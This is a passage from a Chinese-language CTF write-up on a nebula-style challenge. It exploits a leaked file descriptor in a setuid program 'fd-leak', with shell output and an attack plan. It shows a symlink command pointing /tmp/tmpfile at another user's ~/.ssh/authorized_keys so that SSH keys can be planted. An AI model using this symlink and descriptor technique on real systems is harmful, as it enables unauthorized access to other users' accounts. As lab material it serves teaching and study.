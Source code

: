 所以，fd-leak似乎取消了权限。(我们生成的shell并不对权限负责，我希望通过将-p传递到bash上面并直接运行id能说明这一点)。

最后，我们期望子进程继承/tmp/tmpfile的文件句柄：

```
bob@challenge:~$ ls -l /proc/self/fd
total 0
lrwx------ 1 bob bob 64 Apr 12 11:22 0 -&gt; /dev/pts/2
lrwx------ 1 bob bob 64 Apr 12 11:22 1 -&gt; /dev/pts/2
lrwx------ 1 bob bob 64 Apr 12 11:22 2 -&gt; /dev/pts/2
lrwx------ 1 bob bob 64 Apr 12 11:22 3 -&gt; '/tmp/tmpfile (deleted)'
lr-x------ 1 bob bob 64 Apr 12 11:22 4 -&gt; /proc/53982/fd
```

可以看到，的确是这样的。



## 更高级的方法

我们攻击这个程序的方法将遵循这些高级步骤，这些步骤将在下面几节中更详细地介绍：
1. 创建一个符号链接（symlink），代码将尝试写入该符号链接。这样，我们可以在我们选择的位置创建一个文件，并使用我们选择的名称。我们将选择~tom/.ssh/authorized_keys
1. 我们将在子进程的环境中运行一些代码来操作打开的文件句柄，这样就可以编写authorized_keys文件的内容。
1. 最后通过SSH登录。


## 实际开发

### <a class="reference-link" name="%E6%AD%A5%E9%AA%A41%EF%BC%9A%E7%AC%A6%E5%8F%B7%E9%93%BE%E6%8E%A5%EF%BC%88symlink%EF%BC%89%E6%94%BB%E5%87%BB"></a>步骤1：符号链接（symlink）攻击

简单的:

```
ln -s ~tom/.ssh/authorized_keys /tmp/tmpfile
```

这一步在nebula挑战中更加困难，但我不想把问题弄混。

如果我们现在运行代码，我们会看到已创建authorized_keys文件，但我们不控制内容。

```
bob@challenge:~$ ls -l ~tom/.ssh/authorized_keys
-rw------- 1 tom bob 15 Apr 12 12:12 /home/tom/.ssh/authorized_keys
bob@challenge:~$ ln -s ~tom/.ssh/authorized_keys /tmp/tmpfile
ln: failed to create symbolic link '/tmp/tmpfile': File exists
bob@challenge:~$ ls -l /tmp/tmpfile
lrwxrwxrwx 1 bob bob 30 Apr 12 12:11 /tmp/tmpfile -&gt; /home/tom/.ssh/authorized_keys
bob@challenge:~$ ./fd-leak id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
bob@challenge:~$ ls -l ~tom/.ssh/authorized_keys
-rw------- 1 tom bob 15 Apr 12 12:12 /home/tom/.ssh/authorized_keys
```

我们也不控制创建文件的权限。(在运行“umask 0”以进行检查之后，可以在authorized_keys2上尝试上面的操作)。
